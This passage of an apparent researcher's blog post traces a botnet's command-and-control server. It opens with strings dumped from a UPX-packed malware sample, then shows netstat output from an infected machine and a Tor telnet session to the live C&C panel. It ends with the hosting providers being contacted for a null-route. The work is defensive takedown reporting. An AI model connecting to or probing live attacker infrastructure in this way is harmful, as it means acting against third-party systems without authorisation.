ofK!
Y$`X
 zpy
XBp__m
2f2t
SPT}Ldz
Aadd
+^n%
8)XB$

,ST*hdr
mSOI$
bX)f
seBpid
[CmQ

tber
<OYF
aOFork
F
 R^
wait
astF
ader
w,ljtDP0pt
"LD0
!mtxg
ffcX
$,`int
JB
  v
KPerrq
@$;to
cdPidb
v"$@IJ34&QI 
ntr-
,~oll
 d=numiO
!YQ~
B
 #H0
>brk
V1a-
JUNK
Eicat
iAVF
V0'C8HC
l0-g
a00zpid
reat[,
!9rl
&A0j
epFs
2en`
_Jv_R_C
jo-,bX
&,0-
KZ!@
! tHOLD
ogos
UPX!
UPX!
-:~ suedadam$ 

```

Now normally you would read through the file and try and find a IP; however, we've seen this source before so we know just about where we can find the IP! I looked for "root" and the other login credentials and there it was! "*76.123.", I then went back to the attacking source IP we had access to and ran the following:
```
# netstat | grep 76.123
tcp        0      1 61.80.20.38:59332       176.123.7.193:http      LAST_ACK    
tcp        0      1 61.80.20.38:56903       176.123.7.193:http      LAST_ACK    
tcp        0     84 61.80.20.38:60119       176.123.7.193:http      ESTABLISHED 
tcp        0      1 61.80.20.38:57097       176.123.7.193:http      LAST_ACK    
tcp        0      1 61.80.20.38:51267       176.123.7.193:http      LAST_ACK    
tcp        0      0 61.80.20.38:60121       176.123.7.193:http      ESTABLISHED 
tcp        0      1 61.80.20.38:59091       176.123.7.193:http      LAST_ACK    
tcp        0      1 61.80.20.38:58436       176.123.7.193:http      LAST_ACK    
tcp        0     81 61.80.20.38:59687       176.123.7.193:http      ESTABLISHED 
tcp        0      1 61.80.20.38:57956       176.123.7.193:http      LAST_ACK    
tcp        0      0 61.80.20.38:37721       176.123.7.193:telnet    ESTABLISHED 
tcp        0      0 61.80.20.38:59147       176.123.7.193:telnet    CLOSE_WAIT  
tcp        0     81 61.80.20.38:57909       176.123.7.193:http      FIN_WAIT1   
tcp        0      0 61.80.20.38:59919       176.123.7.193:http      ESTABLISHED 
tcp        0      1 61.80.20.38:58604       176.123.7.193:http      LAST_ACK    


```

Well damn, we found the botnet right there! 
Let's go ahead and check it out for ourselves to confirm!

```
-:~ suedadam$ torify telnet 176.123.7.193
18:22:18 libtorsocks(23688): The symbol res_send() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_send): symbol not found!
18:22:18 libtorsocks(23688): The symbol res_querydomain() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_querydomain): symbol not found!
18:22:18 libtorsocks(23689): The symbol res_send() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_send): symbol not found!
18:22:18 libtorsocks(23689): The symbol res_querydomain() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_querydomain): symbol not found!
18:22:18 libtorsocks(23687): The symbol res_send() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_send): symbol not found!
18:22:18 libtorsocks(23687): The symbol res_querydomain() was not found in any shared library. The error reported was: dlsym(RTLD_NEXT, res_querydomain): symbol not found!
Trying 176.123.7.193...
Connected to 176-123-7-193.alexhost.md.
Escape character is '^]'.
!* SCANNER ON


```

As soon as we connected it was right there, asking for us to start scanning! We found the C&C! :)

Now we can check who it is hosted with!

##### Find the host and stop them!

First let's check the IP's announcement:

http://bgp.he.net/ip/176.123.7.193

We see a /24 announcement from AS15836, but what is this? The domain that the abuse email is pointed to is non-existant?  Whatever, we don't need it, we can see by the rDNS that it belongs to alexhost.md
https://alexhost.md/

We can see that they advertise DDoS protection:

image::https://i.imgur.com/oXD1gVh.png[]

but wait, I remember someone advertising 500Gbps protection, Voxility! We can then see that they're peered directly with Trabia who gets their DDoS protection from Voxility! (http://bgp.he.net/AS43289) Let's skip all the middle men and just jump to Voxility as we know that they're a credible company, they'll resolve this quickly for us ;) (Note that I left out that all traffic is being forced through Voxility rather than the other peers, if Voxility nullroutes it then we'll be fine :) )

So let's do it! I sent an email to my good friend Maria from Voxility but they have to talk to their downstream before nullrouting it :( Hopefully they can expedite the process through their channels of communication!

### This botnet was hosted on IP 176.123.7.193 but was blackholed by Voxility and Trabia 